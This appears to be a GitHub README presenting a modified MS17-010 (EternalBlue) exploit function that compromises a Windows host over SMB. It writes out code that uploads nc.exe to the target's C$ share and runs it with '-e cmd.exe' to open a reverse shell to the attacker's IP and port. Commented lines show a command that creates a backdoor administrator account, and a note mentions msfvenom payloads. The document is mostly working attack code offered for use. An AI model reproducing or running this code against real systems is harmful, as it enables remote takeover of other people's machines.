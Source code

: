 # MS-17-010_Reverse_Connection_nc
Run MS17-010 modified exploit to get reverse nc connection

Modified Code
Change LHOST and LPORT. This is your IP address and port where you are listening.
nc.exe is in same folder where your script.


def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	#print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	#fid2 = smbConn.createFile(tid2, '/pwned.txt')
	#smbConn.closeFile(tid2, fid2)
	#smbConn.disconnectTree(tid2)
	
	
	#smb_send_file(smbConn, 'Full path of nc in local', 'C', '/nc.exe')
	smb_send_file(smbConn, 'nc.exe', 'C', '/nc.exe')
	#service_exec(conn, r'cmd /c net user temp temp123 /add && net localgroup administrators temp /add')

	print "check your nc...for reverse connection...."
	#service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe LHOST LPORT')
	service_exec(conn, r'cmd /c c:\\nc.exe -e cmd.exe 10.11.0.152 3333')

	smbConn.disconnectTree(tid2)
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."

def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
	with open(localSrc, 'rb') as fp:
		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
